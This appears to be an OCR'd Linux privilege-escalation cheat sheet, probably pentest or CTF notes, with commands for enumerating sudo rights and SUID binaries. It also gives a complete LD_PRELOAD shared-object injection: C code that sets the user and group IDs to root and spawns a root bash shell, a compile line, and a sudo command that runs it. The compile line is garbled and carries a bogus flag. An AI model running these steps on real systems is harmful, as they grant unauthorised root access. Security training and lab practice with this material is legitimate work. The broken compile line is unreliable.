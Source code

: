# Linux Privesc
### Find sudo permitted files
```
sudo -l
```

### Find SUID binaries
```
find / -type f -perm -u=s 2>/dev/null
```

### Find SUID binaries
```
find / -type f -perm -4000 2>/dev/null
```

### Shared Object Injection
- Sudo -l to enumerate
- LD_PRELOAD
- create and compile C file to output shared-object file
```
#include<stdio.h>
#include<sys/types.h>
#include<stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
- compile
```
gcc -fPIC -shared shell.so shell.c -notestfiles
```
- exploit
```
sudo LD_PRELOAD=/path/to/file.so apache2
```

